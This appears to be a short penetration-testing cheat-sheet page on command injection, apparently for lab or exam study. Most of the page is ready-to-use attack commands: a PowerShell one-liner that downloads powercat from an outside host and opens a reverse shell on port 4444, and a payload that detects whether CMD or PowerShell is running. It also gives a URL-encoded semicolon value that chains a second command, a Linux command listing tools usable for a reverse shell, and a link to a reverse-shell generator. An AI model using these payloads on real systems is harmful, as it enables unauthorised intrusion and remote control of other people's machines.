 # Command Injection



{% embed url="https://www.revshells.com/" %}

## Windows

try to inject arbitrary commands such as **ipconfig**, **ifconfig**, and **hostname**



Display CMD or Powershell depending where its executed:

{% code overflow="wrap" %}
```sh
(dir 2>&1 *`|echo CMD);&<# rem #>echo PowerShell
```
{% endcode %}

Download powercat and execute a reverse shell:

{% code overflow="wrap" %}
```sh
IEX (New-Object System.Net.Webclient).DownloadString("http://192.168.119.3/powercat.ps1");powercat -c 192.168.119.3 -p 4444 -e powershell 
```
{% endcode %}

#### Combine commands with semicolon to get restricted ones to run:

```
git%3Bipconfig
```

## Linux

Enumerate available commands to acheive a reverse shell:

{% code overflow="wrap" %}
```sh
which nc bash python3 python perl php ruby socat awk curl wget telnet 2>/dev/null
```
{% endcode %}
